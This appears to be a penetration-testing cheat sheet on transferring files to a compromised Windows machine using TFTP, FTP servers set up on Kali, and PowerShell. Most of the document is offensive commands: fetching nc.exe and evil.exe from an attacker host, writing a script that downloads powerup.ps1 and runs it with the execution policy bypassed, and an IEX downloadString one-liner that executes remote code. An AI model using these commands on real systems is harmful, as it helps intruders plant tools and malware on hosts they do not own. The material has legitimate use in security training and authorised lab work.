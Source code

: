 # Window File Transfer



## TFTP

* Windows XP and Win 2003 contain tftp client. Windows 7 do not by default
* tfpt clients are usually non-interactive, so they could work through an obtained shell

atftpd --daemon --port 69 /tftp Windows&gt; tftp -i 192.168.30.45 GET nc.exe

## FTP \(pyftpdlib client on Kali\)

* Ftp is generally installed on Windows machines
* To make it interactive, use -s option

### On Kali install a ftp client and set a username/password

```text
apt-get install python-pyftpdlib  
python -m pyftpdlib -p 21
```

### on Windows

```text
ftp <attackerip>
> binary
> get exploit.exe
```

## FTP \(pureftpd client on Kali\)

### on Kali

#### install ftp client

```text
apt-get install pure-ftpd
```

#### create a group

```text
groupadd ftpgroup
```

#### add a user

```text
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
```

#### Create a directory for your ftp-files \(you can also specify a specific user e.g.: /root/ftphome/bob\).

```text
mkdir /root/ftphome
```

#### Create a ftp-user, in our example "bob" \(again you can set "-d /root/ftphome/bob/" if you wish\).

```text
pure-pw useradd bob -u ftpuser -g ftpgroup -d /root/ftphome/
```

#### Update the ftp database after adding our new user.

```text
pure-pw mkdb
```

#### change ownership of the specified ftp directory \(and all it's sub-direcotries\)

```text
chown -R ftpuser:ftpgroup /root/ftphome
```

#### restart Pure-FTPD

```text
/etc/init.d/pure-ftpd restart
```

#### On Windows

```text
echo open <attackerip> 21> ftp.txt
echo USER username password >> ftp.txt
echo bin >> ftp.txt
echo GET evil.exe >> ftp.txt
echo bye >> ftp.txt
ftp -s:ftp.txt
```

## Powershell

```text
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://<attackerip>/powerup.ps1" >>wget.ps1
echo $file = "powerup.ps1" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

### Powershell download a file

```text
powershell "IEX(New Object Net.WebClient).downloadString('http://<targetip>/file.ps1')"
```

